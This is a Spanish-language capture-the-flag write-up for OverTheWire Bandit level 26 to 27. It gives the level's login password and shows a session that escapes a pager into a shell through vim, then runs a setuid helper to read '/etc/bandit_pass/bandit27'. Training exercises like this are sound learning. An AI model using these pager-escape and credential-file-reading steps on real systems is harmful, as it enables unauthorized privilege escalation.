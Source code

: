 
# Level 26-> 27

# Descripcion

Good job getting a shell! Now hurry and grab the password for bandit27!

# Datos de Acceso

Bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
# Solución

```bash

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
--More--(83%)

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~
~
~
~
~
~
~
~
~
~
:set shell=/bin/bash
:shell
bandit26@bandit:~$ ls -la
total 44
drwxr-xr-x  3 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rwsr-x---  1 bandit27 bandit26 14876 Feb 21 22:03 bandit27-do
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .ssh
-rw-r-----  1 bandit26 bandit26   258 Feb 21 22:03 text.txt
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS


```

# Comentarios

|cmd| desc|
|-----|--------|
| shell| nos permite salir a la linea de comandos|

